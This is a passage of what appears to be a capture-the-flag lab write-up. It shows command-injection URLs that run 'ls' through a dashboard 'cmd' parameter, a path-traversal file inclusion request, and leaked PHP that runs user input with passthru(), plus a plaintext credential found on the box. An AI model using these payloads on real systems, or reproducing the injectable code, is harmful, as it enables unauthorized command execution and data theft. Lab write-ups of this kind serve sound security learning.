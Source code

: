 ```
http://admin.holo.live/dashboard.php?cmd=ls+-la%20&&%20echo%20%22%22
press ctrl + u
drwxr-xr-x 6 root root  4096 Jan 16  2021 .
drwxr-xr-x 1 root root  4096 Jan 16  2021 ..
-rw-r--r-- 1 root root    69 Jan  4  2021 .htaccess
-rw-r--r-- 1 root root  1619 Nov  3  2020 action_page.php
drwxr-xr-x 7 root root  4096 Jul  4  2019 assets
-rw-r--r-- 1 root root 16120 Nov  3  2020 dashboard.php
-rw-r--r-- 1 root root   348 Nov  3  2020 db_connect.php
drwxr-xr-x 2 root root  4096 Jul  4  2019 docs
drwxr-xr-x 2 root root  4096 Oct 23  2020 examples
-rwxr-xr-x 1 root root 11753 Oct 22  2020 hololive.png
-rw-r--r-- 1 root root  1845 Oct 22  2020 index.php
-rw-r--r-- 1 root root   135 Jan 16  2021 robots.txt
drwxr-xr-x 2 root root  4096 Jan  4  2021 supersecretdir
```
![[Pasted image 20231007185415.png]]
Let's peak in what's in super secret dir
```
http://admin.holo.live/dashboard.php?cmd=ls%20-la%20supersecretdir%22%22
```
![[Pasted image 20231007192831.png]]
We got a file named creds.txt let's see if we can read it or not
```
I know you forget things, so I'm leaving this note for you: admin:DBManagerLogin! - gurag <3 Visitors today 
```
So it's not useful for us


Let's see what we are not allowed to access so that we can perform the LFI 
![[Pasted image 20231007193129.png]]
```
http://dev.holo.live/img.php?file=../../../../../../var/www/admin/dashboard.php
```
We got something but not sure what at this point of time
```
There is somedata being leaked or it's mis-configured but it looks juicyyyyy
 
 <?php 
 if ($_GET['cmd'] === NULL) 
	{ echo passthru("cat /tmp/Views.txt"); } 
 else 
	 { echo passthru($_GET['cmd']);}
?> Visitors today</h4>

<!--//if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
                
```
![[Pasted image 20231007193526.png]]
![[Pasted image 20231007193650.png]]
![[Pasted image 20231007193714.png]]
```
Let's read the file
cat /tmp/Views.txt

```
